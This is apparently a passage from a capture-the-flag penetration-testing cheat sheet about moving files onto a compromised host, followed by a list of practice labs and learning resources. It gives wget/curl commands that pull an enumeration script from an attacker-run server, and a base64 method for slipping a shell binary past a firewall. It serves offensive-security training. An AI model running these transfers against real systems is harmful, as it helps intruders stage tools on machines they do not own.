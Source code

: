## Transferring files

Source : [PythonHttpServer](https://developer.mozilla.org/en-US/docs/Learn/Common\_questions/set\_up\_a\_local\_testing\_server)

```
user@local> cd /tmp
user@local> python3 -m http.server 8000							# create a web server listening on port 8000

user@remote> wget http://10.10.14.1:8000/linesum.sh				# if remote has "wget"
user@remote> curl http://10.10.14.1:8000/linesum.sh				# if remote has "curl"

user@local> scp linenum.sh user@remotehost:/tmp/linenum.sh		# if you get ssh credentials
```

To bypass firewall protection, encode the file into base64 and upload to remote, then decode :

```
user@local> base64 shell -w 0			# generate base64 string

user@remote> echo f0VMRgIBAQAAAAAAA...gAU0iJ51JXSInmDwU | base64 -d > shell		# paste and decode
```

### Validating File Transfers

```
user@remote> file shell			# check file type

user@remote> md5sum shell		# compare local and remote md5 hash files
user@local> md5sum shell		# if it matches, transfer is successful
```

## Starting Out

Exercises environment outside of HTB :

* [OWASP Juice Shop](https://owasp.org/www-project-juice-shop/)
* [Metasploitable 2](https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/)
* [Metasploitable 3](https://github.com/rapid7/metasploitable3)
* [DVWA](https://github.com/digininja/DVWA)

Youtube channels :

* [IppSec](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA)
* [VbScrub](https://www.youtube.com/channel/UCpoyhjwNIWZmsiKNKpsMAQQ)
* [STÖK](https://www.youtube.com/channel/UCQN2DsjnYH60SFBIA6IkNwg)
* [LiveOverflow](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w)

Blogs :

* [0xdf](https://0xdf.gitlab.io/) (for retired boxes)

Tuto websites :

* [UnderTheWire](https://www.underthewire.tech/index.htm) (powershell and linux commands training)
* [OverTheWire](https://overthewire.org/wargames/)
